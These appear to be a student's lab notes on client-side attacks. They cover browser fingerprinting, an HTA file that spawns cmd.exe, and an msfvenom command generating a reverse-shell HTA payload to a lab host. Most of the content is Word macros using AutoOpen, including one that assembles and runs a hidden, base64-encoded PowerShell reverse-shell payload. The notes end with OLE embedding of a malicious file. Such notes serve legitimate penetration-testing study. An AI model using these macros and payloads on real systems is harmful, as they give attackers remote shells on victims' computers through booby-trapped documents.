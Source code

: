# Client-Side Attacks

#### Introduction

we seek to exploit user like XSS

<figure><img src="../.gitbook/assets/Screenshot 2025-04-01 143000.png" alt=""><figcaption></figcaption></figure>

#### Know your target

* **Passive Client Information Gathering**
  * identifying the victim’s browser
* **Active Client Information Gathering**
  * social engineering and client-side attacks

***

#### Leveraging HTML Applications

*   **Exploring HTML app**

    ```bash
    wget <https://github.com/Valve/fingerprintjs2/archive/master.zip>
    unzip master.zip
    sudo mv fingerprintjs-maaster /var/www/html/fp # move it and rename
    sudo systemctl start apache2 
    ```

    to know the information of browser

    [https://www.whatismybrowser.com/](https://www.whatismybrowser.com/)
*   **HTA attack in Action**

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <body>
      <script>
        var x="cmd.exe"
        new ActiveXObject('WScript.shell').Run(x)
      </script>
    </body>
    </html>
    ```

    which this code is saved on `code.hta` , hta→ just running on _**internet explorer**_

    <figure><img src="../.gitbook/assets/Screenshot 2025-04-01 151329.png" alt=""><figcaption></figcaption></figure>

    **Take Reverse shell**

    ```bash
    sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.6 LPORT=4444 -f hta-psh -o /var/www/html/fp/playground/evil.hta

    # hta-psh -> to identify format of file is hta  
    ```

#### Microsoft Word Attack

*   **Macros**

    which use to automate any task

    ```bash
    Sub test1()

    CreateObject("WScript.Shell").Run "cmd.exe"

    End Sub
    # which we use it to run cmd by Macros
    ```

    ```bash
    Sub AutoOpen()
    test1
    End Sub
    Sub Doc()
    test1
    End Sub
    Sub test1()

    CreateObject("WScript.Shell").Run "cmd.exe"

    End Sub
    # when u open word file the cmd auto open
    ```

    then we create a reverse shell payload and divide it to parts by python

    <figure><img src="../.gitbook/assets/Screenshot 2025-04-01 161451.png" alt=""><figcaption></figcaption></figure>

    so let’s copy the output and past it in `macros`

    ```bash
    Sub AutoOpen()
    test1
    End Sub
    Sub Doc()
    test1
    End Sub
    Sub test1()

    Dim Str As String # to define string in Marcos

    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
    Str = Str + "H0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGk"
    Str = Str + "AcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8Ad"
    Str = Str + "wBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcAB"
    Str = Str + "vAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9A"
    Str = Str + "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQ"
    Str = Str + "AaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAU"
    Str = Str + "wB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQB"
    Str = Str + "tAGUAPQAkAGIAOwAkAHMALgBBAHIAZwB1AG0AZQBuAHQAcwA9A"
    Str = Str + "CcALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACA"
    Str = Str + "AJgAoAFsAcwBjAHIAaQBwAHQAYgBsAG8AYwBrAF0AOgA6AGMAc"
    Str = Str + "gBlAGEAdABlACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB"
    Str = Str + "5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkA"
    Str = Str + "GUAcgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGU"
    Str = Str + "AbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAe"
    Str = Str + "gBpAHAAUwB0AHIAZQBhAG0AKAAoAE4AZQB3AC0ATwBiAGoAZQB"
    Str = Str + "jAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAE0AZQBtAG8AcgB5A"
    Str = Str + "FMAdAByAGUAYQBtACgALABbAFMAeQBzAHQAZQBtAC4AQwBvAG4"
    Str = Str + "AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAd"
    Str = Str + "AByAGkAbgBnACgAKAAoACcAJwBIADQAcwBJAEEAewAxAH0AagB"
    Str = Str + "uADYAMgBjAEMAQQA3AFYAewAyAH0AYgB7ADIAfQAvAGkATwBCA"
    Str = Str + "EQAKwB2AHQATAAnACcAKwAnACcAKwBoADIAaQBGAGwARQBTAGk"
    Str = Str + "AdgBKAFgAYgBiAGkAdQB0AGQAQQBtAHYAbwBhAFEARgBVAGsAS"
    Str = Str + "wBCAFEAeQBjADMAYwBSAEsARABpAHsAMgB9AG4AaQA4AEwAYQA"
    Str = Str + "zAC8ALwAzAEcAawAnACcAKwAnACcATABSAFUAYgBlADkANgBKA"
    Str = Str + "DYAMABsAFIARABLAGUARwBZACsAZgBlAHsAMgAnACcAKwAnACc"
    Str = Str + "AfQBZAG0AWABoAEkANgBuAEwAQgBRAGUAbgB6ADgASgB2ADMAN"
    Str = Str + "AAvAEUAbABLAFYAdwA5AEYAYQBDAGsAcABPAFUAUgBJAFgAcwB"
    Str = Str + "xAHQAdwBvADEAdgBxAGMAKwA3AHUAZABDAFIAdgBrAHYASwBWA"
    Str = Str + "EYAdQB0ADYAbQB5AEoAUwBEAGkANwB1AHEAbwBsAFUAWQBSAEQ"
    Str = Str + "AZgBuAHcAdgB0AEQARABYADQAaABnAHYASAB5AGoAQgBzAGEAS"
    Str = Str + "gBLAGYAMABtAGoAQQBFAGYANAA3AFAAWgBoAGoAaAAwAHUALwB"
    Str = Str + "aAEIAeQBmAHgAWgBhAGwARAAwAGcAbQBxAHIAdABhAHMAZwBKA"
    Str = Str + "HMASABTAG0AaABhADcAWQA2AHoASQBIAGkAYgBnAEsAMQBvAG8"
    Str = Str + "AUwByAHMAaAAvAC8AQwBHAHIAMAA3AFAAeQByAHsAMQB9AEIAN"
    Str = Str + "ABUAEIAQwB7ADEAfQBGAGQAbgBhAHgAUgB3AHYAQwB5ADYAbAB"
    Str = Str + "zAGkAcgA5AFYATQB7ADIAfQBCAGQANwBzAFYAVgBtAFMAVABPA"
    Str = Str + "EIARwBMAG0AYwBjAEwASQB4AEsAZQBWAHcAcgBEAE0ARQBZAGU"
    Str = Str + "AdgAnACcAKwAnACcAZwBGAHYAYQAyAHgAaQBIAGoAQQAzAGwAd"
    Str = Str + "QBFAHEAegA1AGUASgBNAEUAKwBpAFUAewAxAH0AeABKAE8ARAB"
    Str = Str + "tAHEAJwAnACsAJwAnAEsARABJADgAOQBpAEwAbQBhAEsANABiA"
    Str = Str + "DQAVABpAHsAMgB9ADgAOQBKAFUAdQBKAC8ATwBaAHIAOAByADA"
    Str = Str + "ALwBUAHMAUQBSAEoAeQBzAHMAUQBGAEkAKwBRADQAWQBpAHMAT"
    Str = Str + "ABSADIAdgBpADQATABqAFEAUgBxAEYATAA4AFEAQgA3AE0ANwB"
    Str = Str + "DAHkAZQBFAFIAQwBmADYAYQBxACcAJwArACcAJwBvAEwAWgBtA"
    Str = Str + "EMANgB6AGsAdwBvAFQAUwB2AFAAUgBmADMAQwBnADMAZQBKAE0"
    Str = Str + "AaAA5ADEARQBqADUAZABRAEkAdABIAG8AOABVAHYATwBRADAAR"
    Str = Str + "gBlADMAewAxAH0ASgBtAGIAVQBIAHkAMABrADkAOABJAFUAMQA"
    Str = Str + "nACcAKwAnACcAQgBBAGgAZgBWAEUAQQB3AEQAdgBwADgARABQA"
    Str = Str + "HkANgBnAHoAWAA5AHQAdgBVAE8AZABaACcAJwArACcAJwBrAEs"
    Str = Str + "AMwBwAFkAUQBkAEQAdwBFAHEAUAB4AGUAUgBnACsAMQAwAHEAN"
    Str = Str + "QBTAFUAVABEAGsAZQBjAFIAVAB0ADQAegBkADEARgBDAFYAWgB"
    Str = Str + "uAFQAMwBCAEwATwBUAGIATwBmADkAUgBYAE8AVABNAEUAcwB5A"
    Str = Str + "DMARgBEAEUAUgBUAG0AeABGADMAJwAnACsAJwAnADkAdQB6AGc"
    Str = Str + "AUgBlAHAAegBtADkASwBsADAASABtAGYAeAAzAFgAcwBrAFIAR"
    Str = Str + "ABYAGQAeQBGAGEARQBpAGUAagBxAHYASgB7ADIAfQBRAHIAQgB"
    Str = Str + "IADgAUQBHAFAAUQBxAFoAMgBBAHcARQBxAGMAcgBxAEIAMwBUA"
    Str = Str + "HEAbQAyAEUAZABjAGcAQwB4ADQAOABjAHEAcwBzAFMAVAA4AHk"
    Str = Str + "AVgBaAFAAQwBIAFYAeABwAEQAbQBRADEAQgBpAGkAZwBuAHkAJ"
    Str = Str + "wAnACsAJwAnAHIATAA0AE0ANQA1AGsAMgBSAGoAZABEAEUAUwA"
    Str = Str + "4AEQAdQArAEEANQBFAHoAWABsAFEASQBEAGoAVABUAG8AdABpA"
    Str = Str + "GwANQAwAHUAMwBrAEYASgByAGwARQBVAHgAMwBtAHAAbAAwAEM"
    Str = Str + "ARgBPAG4AbgBKAHcAbwBoAGkAewAxAH0AeQA5AHAAWQBVAHoAU"
    Str = Str + "wBMAFMAMwBoADcAUABBAG8AUAA0AGQAcgBKAHAAUQBUAEIAOAB"
    Str = Str + "VADgAYwB6AGQAVABYADYASwBaAG4AbABwAGoAWQBjAHkAagB4A"
    Str = Str + "EkARwBrAEEAZwBKADMAMQBnAG8ANwBCAEYARQBCAFMARgA1AHE"
    Str = Str + "ARQB4AGYAcgBPADQAdgA0ADIAZQBuAHkAbQAzAEQAVQBFAEsAV"
    Str = Str + "gBRAE8AZQBCAHAARABlAGsAQQBpAFkARABCADQAbwBJAHEARQB"
    Str = Str + "RAFEASwB0AEYAQQBMAEYAdQBiAEcAYwBrAFgAeABFAGoAUQBPA"
    Str = Str + "DcAYQBKAEoAawBRAC8AewAxAH0ASQBhADIATwBBADcATwBRAGo"
    Str = Str + "AMQAnACcAKwAnACcAMwA1ADcAUwBpAHoASwBqAGgAUwBYAHEAQ"
    Str = Str + "wBTAHcAWABFAFMASQA2AFQAYQBvAG8AegBuAEoAWgB0AEUASAB"
    Str = Str + "IAHEAUABRAEYAaAB3ADYAMwArAEUAOABMAHIAbgBpAEYAaABxA"
    Str = Str + "EUAVQA3AHoAbwBtAFMAbAB7ADEAfQBkAFYAMwBYAEoAQQAvADU"
    Str = Str + "AdwBVAFQAdwBjADgAVQBuAFEATQB7ADIAfQBFAFEAYwBjAG0Aa"
    Str = Str + "ABGAGIANgBpAGoARwBYADYAdgBIAC8AcQBKADgASwBkACcAJwA"
    Str = Str + "rACcAJwA2AFMAbQBnAFoAcgBiAEkAVABVAGQAUABRAEYASwB7A"
    Str = Str + "DIAfQBzAGIAVQBqAFoATQArAEEAMwBKAHUAYwBIAHEARgArADU"
    Str = Str + "AMQBaADkANAAnACcAKwAnACcAdQBSAHYAVgB0ADQARwBsAEcAY"
    Str = Str + "gBKAGoAJwAnACsAJwAnAHQAWAByADMAZgBiAGwAZgBYAEg"
    CreateObject("WScript.Shell").Run Str # replace cmd.exe with the payload 

    End Sub

    ```
*   **object linking and embedding**

    insert malicious file in word file

    ```bash
    insert -> object -> create from file -> browse
    # which this file has a shell
    ```

    <figure><img src="../.gitbook/assets/Screenshot 2025-04-01 180910.png" alt=""><figcaption></figcaption></figure>
